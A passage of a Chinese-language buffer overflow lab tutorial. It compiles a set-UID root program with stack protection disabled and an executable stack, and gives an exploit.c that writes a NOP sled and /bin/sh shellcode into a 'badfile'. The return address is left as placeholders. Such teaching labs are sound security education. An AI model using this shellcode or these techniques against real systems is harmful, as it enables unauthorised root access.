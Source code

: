 编译该程序，并设置SET-UID。命令如下：

```
sudo su

gcc -m32 -g -z execstack -fno-stack-protector -o stack stack.c

chmod u+s stack

exit
```

GCC编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 –fno-stack-protector 关闭这种机制。

而 -z execstack 用于允许执行栈。

###3.4 攻击程序

我们的目的是攻击刚才的漏洞程序，并通过攻击获得root权限。

把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

```
/* exploit.c */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=

"\x31\xc0"    //xorl %eax,%eax
"\x50"        //pushl %eax
"\x68""//sh"  //pushl $0x68732f2f
"\x68""/bin"  //pushl $0x6e69622f
"\x89\xe3"    //movl %esp,%ebx
"\x50"        //pushl %eax
"\x53"        //pushl %ebx
"\x89\xe1"    //movl %esp,%ecx
"\x99"        //cdq
"\xb0\x0b"    //movb $0x0b,%al
"\xcd\x80"    //int $0x80
;

void main(int argc, char **argv)
{
char buffer[517];
FILE *badfile;

/* Initialize buffer with 0x90 (NOP instruction) */
memset(&buffer, 0x90, 517);

/* You need to fill the buffer with appropriate contents here */
strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??");
strcpy(buffer+100,shellcode);

/* Save the contents to the file "badfile" */
badfile = fopen("./badfile", "w");
fwrite(buffer, 517, 1, badfile);
fclose(badfile);
}
```
